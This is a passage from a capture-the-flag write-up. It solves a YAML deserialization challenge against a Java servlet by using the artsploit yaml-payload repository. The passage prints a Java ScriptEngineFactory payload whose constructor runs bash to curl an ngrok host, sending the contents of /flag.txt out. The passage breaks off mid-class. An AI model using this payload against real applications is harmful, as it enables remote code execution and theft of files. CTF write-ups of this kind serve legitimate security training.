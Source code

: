 **Flag:** ctf{3c7f44ab3f90a097124ecedab70d764348cba286a96ef2eb5456bee7897cc685}


## lmay {#lmay}

{% highlight bash %}
Parsing user input? That sounds like a good idea. Can you check this one out?

Flag format: ctf{sha256}
{% endhighlight %}

The given address host a website. To solve this challenge, we need to notice to things: the name of the challenge ("yaml" in reverse) and that the form's action is set to Servlet, which means that our input will be sent to '/Servlet'.
The first result of a Google search for "yaml payloads" reveals [this repository](https://github.com/artsploit/yaml-payload), which thankfully also contains instructions for exploiting a vulnerable application. The solution involves the following steps:
First, we need clone the repository with `git clone https://github.com/artsploit/yaml-payload.git` and set our payload in `src/artsploit/AwesomeScriptEngineFactory.java`:

{% highlight java %}
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            String[] cmd = {"bash", "-c", "curl https://67bed420422b.ngrok.io/flag?flag=`cat /flag.txt`"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override